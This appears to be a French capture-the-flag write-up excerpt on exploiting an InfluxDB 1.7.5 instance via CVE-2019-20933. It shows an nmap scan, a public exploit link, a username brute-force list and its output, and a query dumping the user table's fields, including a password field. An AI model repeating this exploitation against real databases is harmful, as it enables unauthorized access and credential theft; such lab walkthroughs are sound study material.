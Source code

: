 ## **INFLUXDB**

```
❯ nmap -sC -sV 127.0.0.1 -p 8086
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-25 21:40 CEST
Nmap scan report for arch (127.0.0.1)
Host is up (0.00011s latency).

PORT     STATE SERVICE VERSION
8086/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```
Nous trouvons rapidement une exploit compatible avec notre version de influxdb.

[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

L'exploit a besoin d'une liste de user, nous prenons naturellement tout les users que nous avons croiser sur la box.

```
patrick
catherine
root
admin
```

```
Start username bruteforce
[x] patrick
[x] catherine
[x] root
[v] admin
```

Nous avons access a la base de donnée influxdb.
Nous pouvons maintenant dumper la table.

```
[devzat] Insert query (exit to change db): show field keys;
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "fieldKey",
                        "fieldType"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "enabled",
                            "boolean"
                        ],
                        [
                            "password",
                            "string"
                        ],
                        [
                            "username",
                            "string"
                        ]
                    ]
                }
            ],
            "statement_id": 0
```